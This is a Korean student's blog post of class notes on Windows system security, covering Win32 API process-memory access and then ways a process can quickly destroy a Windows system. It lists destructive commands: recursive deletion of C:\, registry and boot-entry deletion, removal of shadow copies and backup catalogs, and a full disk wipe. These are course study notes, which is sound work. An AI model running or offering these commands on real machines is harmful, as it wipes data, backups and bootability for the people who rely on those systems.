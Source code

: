 ```yaml
---
layout: post
title: "시스템 보안 2주차"
categories:
  - School
tags:
  - windows
  - "21105590"
last_modified_at: 2025-09-10
---
```


월요일.. 착각 이슈로 수업 빼버림 <br>
하......<br><br>

프로세스가 우리 시스템 안에서 할 수 있는 악성 행위 

# Win32 API 

memoryapi.h 라이브러리에 존재한다. -> 원래의 목적은 다른 프로세스(debuggee) 내부를 살펴보기 위한 디버거 구현시 사용 
<br><br>
debugger가 debuggee에 작성하기 위해서는 `WriteProcessMemory()` 를 활용하는 등.. <br>
프로세스 간 R,W가 되기 위해서는 디버거-디버기 관계가 중요 <br>
<br>
nop : not operation -> 
<br>
EULA? -> 데이터 수집 및 사용 

1. 윈도우 시스템 파괴 
접근 권한이 있는 상태에서 시스템을 재빨리 파괴하는 
ex) reg delete, RD C:\ /S /Q 

패치 방법도 생각해보기 

-> 가상머신이 없다.. 윈도우를 가져와야 하는데 
일단 서치만 해보자

bcdedit /enum firmware
bcdedit /delete {identifier}

---

vssadmin delete shadows /all /quiet
wbadmin delete catalog -quiet
wmic shadowcopy delete

list disk 
select disk 1 
clean all 

집 가서 되나 확인해보기 